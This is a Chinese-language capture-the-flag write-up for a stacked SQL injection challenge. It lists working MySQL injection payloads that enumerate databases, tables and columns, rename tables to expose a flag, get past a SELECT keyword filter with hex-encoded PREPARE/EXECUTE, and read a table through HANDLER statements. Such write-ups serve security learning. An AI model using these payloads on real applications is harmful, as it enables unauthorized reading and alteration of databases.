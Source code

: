 1，测试 1' or 1=1 # ,初步判定存在SQL注入。
`1' or 1=1 #`

再测试字段数，到3时报错，说明字段数为2.
`1' order by 1 # `

接着尝试union注入,回显了过滤的关键字。
`1' union select 1,2#`

尝试堆叠注入:原理很简单，就是通过 ; 号注入多条SQL语句。

查库
`0'; show databases; #`
查表
`0'; show tables; #`
查字段
`1'; show columns from words; #`
表名为数字时，要用反引号包起来查询
0'; show columns from \`1919810931114514 \`; #


### 解题思路1：

1，通过 rename 先把 words 表改名为其他的表名。

2，把 1919810931114514 表的名字改为 words 。

3 ，给新 words 表添加新的列名 id 。

4，将 flag 改名为 data 。
```sql
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#

```
### 解题思路2：


因为select被过滤了，所以先将select * from ` 1919810931114514 `进行16进制编码

再通过构造payload得

```sql
;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
```


### 解题思路3：

比赛后复现用的payload：

```
1'; handler `FlagHere` open as `a`; handler `a` read next;#
```

后来在buu上做时发现了payload2，貌似要复杂一点：

```
1';HANDLER FlagHere OPEN; HANDLER FlagHere READ FIRST; HANDLER FlagHere CLOSE;#
```


